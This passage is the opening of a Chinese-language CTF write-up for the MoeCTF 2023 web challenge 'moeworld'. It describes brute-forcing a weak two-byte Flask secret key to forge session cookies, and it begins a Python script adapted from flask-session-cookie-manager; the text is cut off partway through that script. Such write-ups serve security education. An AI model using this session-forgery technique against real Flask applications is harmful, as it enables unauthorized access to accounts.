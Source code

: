 ```yaml
---
title: MoeCTF 2023 Web 部分复现
date: '2023/11/18 16:05:01'
categories:
  - - CTF
description: MoeCTF 2023 Web 部分复现
tags:
abbrlink:
---
```


# MoeCTF 2023 Web 部分复现
## moeworld 

### 攻击公网服务器

打开页面是一个登录界面，创建一个账号进去之后，发现有提示
```
flask框架
而且session的密钥为 app.secret_key = "This-random-secretKey-you-can't-get" + os.urandom(2).hex()
```

session的密钥只有两位随机，猜测可以爆破，考虑 flask session 伪造

#### flask session 伪造
使用工具 [flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)

编写 python 脚本爆破
这里是在 ```flask_session_cookie_manager3.py``` 文件的部分代码基础上，进行了修改
```python
#!/usr/bin/env python3

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast
import itertools

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else: # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
```